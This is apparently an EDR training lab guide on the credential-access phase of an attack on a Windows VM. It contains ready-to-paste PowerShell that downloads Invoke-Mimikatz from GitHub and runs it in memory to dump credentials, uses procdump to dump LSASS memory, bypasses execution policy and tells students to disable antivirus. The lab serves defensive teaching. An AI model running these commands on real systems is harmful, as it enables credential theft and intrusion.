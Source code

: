 ```yaml
---
Title: ATT&CK - Credential Access & Exfiltration Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1
- live.sysinternals.com/procdump.exe
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Credential Access consists of techniques for stealing credentials like account names and passwords. Techniques used to get credentials include keylogging or credential dumping. Using legitimate credentials can give adversaries access to systems, make them harder to detect, and provide the opportunity to create more accounts to help achieve their goals

The virtual machine has some dummy users to mimic a specific type of workstation that might be found in a business enviroment:

Dummy users:
- Joe from Accounting: 
  - `net user joe Password1! /ADD /FULLNAME:"Joe - Accounting"`
- Samson from Accounting
  - `net user samson Password1! /ADD /FULLNAME:"Samson - Accounting"`
- Brenda from IT
  - `net user brenda Password1! /ADD /FULLNAME:"Branda - IT Helpdesk"`

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Credential Access phase of an attack
2. Demonstrate the use of common tools for stealing passwords
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Credential Dumping with Mimikatz
> *Mimikatz is one of the most well known credential access and dumping tools used by hackers today. It can extract passwords, unencode them and sometimes unencrypt them.*

w> Mimikatz almost always will flag on antivirus so it's important to disable antivirus tools prior to running it.

Execute a **Credential Dump with Mimikatz**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Mimikatz
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	$MimikatzURL = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'
	$cmd = "IEX (New-Object Net.WebClient).DownloadString('$MimikatzURL'); Invoke-Mimikatz -DumpCreds; Start-Sleep -m $n"
	powershell.exe -command $cmd
	```



### 2. Credential Dumping with procdump.exe
> *Because Mimikatz is so commonly found by antivirus, some attackers will use built-in windows utilities to dump the memory of the security process, LSASS.exe, and then use mimikatz on the dump following exfiltration.*

Execute a **Credential Dump with Procdump**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Extract LSASS memory with Procdump
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	Write-Host -ForegroundColor Cyan  "Downloading ProcDump.exe"
	Invoke-WebRequest -Uri http://live.sysinternals.com/procdump.exe -OutFile "$Env:temp\procdump.exe"
	Write-Host "Dumping LSASS memory with ProcDump.exe to extract passwords and tokens"
	& "$Env:temp\procdump.exe" -ma lsass.exe lsass.dmp -accepteula
	```